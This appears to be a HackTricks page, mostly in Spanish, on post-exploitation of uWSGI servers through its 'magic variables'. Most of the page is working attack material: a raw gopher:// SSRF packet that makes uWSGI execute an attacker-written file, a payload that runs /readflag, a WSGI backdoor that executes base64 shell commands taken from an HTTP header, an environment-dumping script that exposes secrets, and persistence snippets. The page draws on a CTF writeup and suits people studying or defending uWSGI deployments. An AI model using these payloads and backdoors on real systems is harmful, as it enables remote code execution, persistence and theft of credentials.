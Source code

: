 # WSGI Post-Exploitation Tricks

{{#include ../../banners/hacktricks-training.md}}

## Visión general de WSGI

Web Server Gateway Interface (WSGI) es una especificación que describe cómo un servidor web se comunica con aplicaciones web, y cómo las aplicaciones web pueden encadenarse entre sí para procesar una solicitud. uWSGI es uno de los servidores WSGI más populares, a menudo usado para servir aplicaciones web en Python.

## Explotación de variables mágicas de uWSGI

uWSGI proporciona "variables mágicas" especiales que pueden usarse para configurar dinámicamente el comportamiento del servidor. Estas variables pueden establecerse mediante encabezados HTTP y pueden conducir a vulnerabilidades de seguridad graves si no se validan correctamente.

### Variables explotables clave

#### `UWSGI_FILE` - Ejecución arbitraria de archivos
```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
Esta variable permite cargar y ejecutar archivos Python arbitrarios como aplicaciones WSGI. Si un atacante puede controlar este parámetro, puede lograr Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Script Loading
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Carga un script especificado como una nueva aplicación. Combinado con capacidades de subida o escritura de archivos, esto puede llevar a RCE.

#### `UWSGI_MODULE` y `UWSGI_CALLABLE` - Carga dinámica de módulos
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
Estos parámetros permiten cargar módulos de Python arbitrarios y llamar funciones específicas dentro de ellos.

#### `UWSGI_SETENV` - Manipulación de variables de entorno
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Se puede usar para modificar variables de entorno, potencialmente afectando el comportamiento de la aplicación o cargando configuraciones maliciosas.

#### `UWSGI_PYHOME` - Manipulación del entorno de Python
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Cambia el entorno virtual de Python, lo que puede cargar paquetes maliciosos o diferentes intérpretes de Python.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Cambia el directorio de trabajo antes de procesar las solicitudes, lo que puede usarse para ataques de path traversal.

## SSRF + Gopher a

### Vector de ataque

Cuando uWSGI es accesible vía SSRF (Server-Side Request Forgery), los atacantes pueden interactuar con el socket interno de uWSGI para explotar variables mágicas. Esto es especialmente peligroso cuando:

1. La aplicación tiene vulnerabilidades SSRF
2. uWSGI se está ejecutando en un puerto/socket interno
3. La aplicación no valida correctamente las variables mágicas

uWSGI es accesible debido a SSRF porque el archivo de configuración `uwsgi.ini` contiene: `socket = 127.0.0.1:5000` lo que lo hace accesible desde la aplicación web a través de SSRF.

### Ejemplo de explotación

#### Paso 1: Crear payload malicioso
Primero, inyecta código Python en un archivo accesible por el servidor (escritura de archivo dentro del servidor, la extensión del archivo no importa):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```
#### Paso 2: Preparar solicitud del protocolo uWSGI
Usa el protocolo Gopher para enviar paquetes uWSGI crudos:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```
This payload:
- Se conecta a uWSGI en el puerto 5000
- Establece `UWSGI_FILE` para apuntar al archivo malicioso
- Fuerza a uWSGI a cargar y ejecutar el código Python

### Estructura del protocolo uWSGI

El protocolo uWSGI usa un formato binario en el que:
- Las variables se codifican como cadenas prefijadas por su longitud
- Cada variable tiene: `[name_length][name][value_length][value]`
- El paquete comienza con un encabezado que contiene el tamaño total

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
cmd = environ.get('HTTP_X_CMD', '')
if cmd:
result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
else:
response = "Backdoor active"

start_response('200 OK', [('Content-Type', 'text/plain')])
return [response.encode()]
```
Luego usa `UWSGI_FILE` para cargar este backdoor:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```
#### Persistencia basada en variables de entorno
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```
### 2. Divulgación de Información

#### Environment Variable Dumping
```python
# env_dump.py
import os
import json

def application(environ, start_response):
env_data = {
'os_environ': dict(os.environ),
'wsgi_environ': dict(environ)
}

start_response('200 OK', [('Content-Type', 'application/json')])
return [json.dumps(env_data, indent=2).encode()]
```
#### Acceso al sistema de archivos
Usa `UWSGI_CHDIR` combinado con el servicio de archivos para acceder a archivos sensibles:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```
### 3. Escalada de Privilegios

#### Manipulación de sockets
Si uWSGI se ejecuta con privilegios elevados, los atacantes podrían manipular los permisos del socket:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```
#### Sobrescritura de configuración
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```
## Referencias

- [uWSGI Magic Variables Documentation](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [IOI SaveData CTF Writeup](https://bugculture.io/writeups/web/ioi-savedata)
- [uWSGI Security Best Practices](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

{{#include ../../banners/hacktricks-training.md}}
